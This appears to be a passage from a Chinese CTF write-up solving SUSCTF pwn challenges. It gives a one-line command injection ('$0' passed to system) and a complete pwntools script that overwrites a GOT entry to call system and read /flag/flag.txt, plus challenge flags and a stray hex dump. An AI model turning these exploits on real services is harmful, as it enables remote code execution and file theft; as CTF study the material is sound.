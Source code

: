 运行脚本，几百次后可以算出flag

![image-20201020162255108](https://timg.reito.fun/archive/typora-schwarzer/image-20201020162255108.png)

```
SUSCTF{77b08dd5f20c447740c2fbd89502bb9b}
```

## [pwn]babync

签到题，直接`cat /flag/flag.txt`

```
SUSCTF{61e32be7149c0c92e3cd1a41288b10b1}
```

## [pwn]eznc

这题提供了[源码](https://pan.baidu.com/s/1yVjtBgbhbO5rvuVkwRbYCw)，主要就是过滤了很多字符。搜索了一番，发现linux可以用`$`来访问环境变量，后来想起来好像一些脚本里用`$0, $1`访问`argv`，在自己机子上试了下。

![image-20201020144437092](https://timg.reito.fun/archive/typora-schwarzer/image-20201020144437092.png)

那么直接输入`$0`，远端将执行`system("$0")`，完成题目，获取flag。

```
SUSCTF{1fb239c45249db2810e94b203b305c1e}
```

## [pwn]ezgot

如名字所说，肯定是改got表啦。解压发现这题给了libc。

![image-20201020144706363](https://timg.reito.fun/archive/typora-schwarzer/image-20201020144706363.png)

![image-20201020144749445](https://timg.reito.fun/archive/typora-schwarzer/image-20201020144749445.png)

任意地址写，程序给了`printf`基地址，那就把`system`写入`puts`就行了。

![image-20201020144853727](https://timg.reito.fun/archive/typora-schwarzer/image-20201020144853727.png)

分析libc，得知`printf`在`0x55810`，`system`在`0x453A0`，给出脚本

```python
from pwn import *

conn = remote('146.56.223.95', 20003)

conn.recv(10)
conn.recv(23)

printf_str = conn.recvline(False);

print(printf_str)
printf_addr = int(printf_str, 16)
write_to = 0x601018
write_what = printf_addr + (0x453A0 - 0x55810)

write_to_str = p64(write_to, endian='little')
write_what_str = p64(write_what, endian='little')

print(conn.recv(100, 2))
conn.send(write_to_str)
print(conn.recv(100, 2))
conn.send(write_what_str)
print(conn.recv(100, 2))
conn.send('cat /flag/flag.txt')
```

[0]:  000000000000000000000000aba596caeac381cd80d5cdaa098a82b999ead1d9
[1]:  000000000000000000000000c9219dd84a3210920addbead9d0099f4a8b27229
[2]:  00000000000000000000000000000000000000000000000000000000000f32a7
[0]:  0000000000000000000000000000000000000000000000000000000000000020
[1]:  0000000000000000000000000000000000000000000000000000000000000030
[2]:  6333567a5933526d4d6a41794d45426a65574a6c636e4e7759574e6c6332566a
[3]:  64584a7064486b75623235736157356c00000000000000000000000000000000